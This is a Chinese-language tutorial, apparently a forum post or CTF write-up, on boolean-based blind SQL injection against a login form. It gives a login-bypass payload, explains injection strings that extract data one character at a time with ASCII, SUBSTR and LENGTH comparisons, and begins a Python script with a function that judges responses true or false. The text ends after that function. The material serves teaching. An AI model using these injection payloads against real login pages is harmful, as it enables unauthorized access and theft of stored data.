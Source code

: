[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0b830087b825ec9191f58c728666a9aba3fc3caa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0b830087b825ec9191f58c728666a9aba3fc3caa.png)

布尔盲注SQL注入
---------

一个登陆的功能  
`?Username=admin&Password=123`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4b8fd43f9150a9add52d85fb15a9cb11baf9946d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4b8fd43f9150a9add52d85fb15a9cb11baf9946d.png)  
照样尝试写出实现的SQL语句。  
`select * from xxx where username='admin' and password='123'`  
来一手比较经典的登陆绕过  
`?Username=1'or 1%23&Password=123`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-13a9c3f78abbc5b3452ded510ee97225010bdf58.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-13a9c3f78abbc5b3452ded510ee97225010bdf58.png)  
当`?Username=1'or 0%23`时则登陆失败。  
我们可以利用这一点来判断注入语句执行的真假。

### 原理

布尔盲注通常采用逐位进行ascii码比较来猜解结果。  
一般用到下面几个函数：  
`ASCII(str)`：返回str字符串第一个字符的ascii码值。  
`SUBSTR(str,pos,len)`：返回从str第pos位截取len长的子串。  
`LENGTH(str)`：返回str字符串的长度。

我们将查询语句记为`$expr`，常规注入流程如下：  
首先判断`$expr`查询结果的长度：  
`1'or (LENGTH(($expr))>$x-1)`页面响应为真  
`1'or (LENGTH(($expr))>$x)`页面响应为假  
当出现上面的情况时，说明查询结果长度为`$x`。因为长度最少为0，所以从-1开始判断。

知道长度后就可以开始逐位判断结果了。  
`1'or (ASCII(SUBSTR(($expr),$x,1))>$y-1)`页面响应为真  
`1'or (ASCII(SUBSTR(($expr),$x,1))>$y)`页面响应为假  
当出现上面的情况时说明查询结果的第`$x`位的ascii码值为`$y`，其中`$x`从1增长到前面得到的长度。  
其实不需要长度也可以，因为`SUBSTR`的`pos`越界后返回一个空串，而mysql中`""==0`，这也可以作为一个判断依据。

### 实战

回到题目，盲注核心就是大量且重复的猜解，所以我们都会编写脚本来代替手工。  
首先编写一个响应的真假判别函数，它的作用是根据响应判断注入表达式执行结果的真假并返回。

```python
import requests as req

def bool_check(resp):
    if resp.status_code != 200:
        return False
    if "登录失败" in resp.text:
        return False
    return True
```
